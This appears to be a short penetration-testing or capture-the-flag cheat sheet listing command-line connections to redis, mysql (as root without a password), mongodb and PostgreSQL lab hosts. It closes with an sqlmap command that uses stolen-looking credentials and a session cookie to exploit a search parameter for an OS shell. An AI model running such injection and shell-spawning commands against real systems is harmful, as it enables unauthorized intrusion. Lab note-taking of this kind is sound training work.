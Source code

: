 ```yaml
---
title: 'Databases Access by CLI'
desc: 'Accessing DB server by CLI'
tags: 'redis,mongodb,mysql'
---
```


# Databases Access by CLI


* redis

```
redis-cli -h 10.129.111.33 -p 6379
```

* mysql: root

```
mysql --host=10.129.187.6 --user=root
```

* mongodb:

```
mongo 10.129.183.245:27017 
```

* psql

```
psql -h [host] -U [username] -p [port]

# commands
\list : show the list of databases
\c [database] : use the database
\d : list tables
\du+ : show users roles
\dt [table] : use a table

# commands should carry " ; " (semicolon)
SELECT * from flagtable;
```

* sqlmap

```
sqlmap -u "http://10.129.29.196/dashboard.php?search=meta" --auth-cred "admin:qwerty789" --auth-type="basic" --cookie="PHPSESSID=3umpj9dhgherekvdg17nlj843o" --os-shell
```
